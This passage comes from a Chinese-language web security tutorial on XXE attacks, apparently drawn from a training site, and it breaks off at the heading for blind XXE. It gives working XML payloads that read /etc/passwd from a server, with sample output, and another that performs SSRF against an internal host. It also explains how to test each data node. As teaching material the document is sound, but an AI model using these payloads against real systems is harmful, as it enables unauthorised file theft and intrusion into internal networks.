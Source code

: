 ### What are the types of XXE attacks?

有多种类型的XXE攻击：

- 利用XXE检索文件，其中定义了一个包含文件内容的外部实体，并在应用程序的响应中返回。
- 利用XXE执行SSRF攻击，其中基于后端系统的URL定义外部实体。
- 利用盲XXE将数据泄露到带外（out-of-band），将敏感数据从应用程序服务器传输到攻击者控制的系统。
- 利用盲XXE通过错误消息检索数据，攻击者可以触发包含敏感数据的解析错误消息。

### Exploiting XXE to retrieve files

要执行从服务器文件系统中检索任意文件的XXE注入攻击，需要通过两种方式修改提交的XML：

- 引入（或编辑）一个`DOCTYPE` 元素，该元素定义包含文件路径的外部实体。
- 编辑应用程序响应中返回的XML中的数据值，以使用定义的外部实体。

例如：假设购物应用程序通过向服务器提交以下XML来检查产品的库存量

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```

应用程序没有对XXE攻击执行任何特定防御，因此可以利用XXE漏洞通过提交以下XXE有效负载来检索`/etc/passwd`文件：

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

此XXE有效负载定义一个外部实体，其值是`/etc/passwd`文件的内容，并在`productId`值中使用该实体`&xxe;`。这会导致应用程序的响应包含文件的内容：

```http
Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

>对于现实世界的XXE漏洞，提交的XML中通常会有大量数据值，其中任何一个值都可能在应用程序的响应中使用。若要系统地测试XXE漏洞，通常需要**单独测试XML中的每个数据节点**，方法是使用定义的实体并查看它是否出现在响应中。

### Exploiting XXE to perform SSRF attacks

除了检索敏感数据外，XXE攻击的另一个主要影响是它们可用于执行服务端请求伪造SSRF。

要利用 XXE 漏洞执行 SSRF 攻击，需要使用要攻击的 URL 定义外部 XML 实体，并在数据值中使用已定义的实体。如果能在应用程序响应中返回的数据值内使用已定义的实体，那么就能在应用程序响应中查看来自 URL 的响应，从而获得与后端系统的双向交互。否则，就只能执行盲目的 SSRF 攻击（仍可能造成严重后果）。

在以下XXE示例中，外部实体将导致服务器向组织基础结构中的内部系统发出后端HTTP请求：

```xml-dtd
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

### Blind XXE vulnerabilities
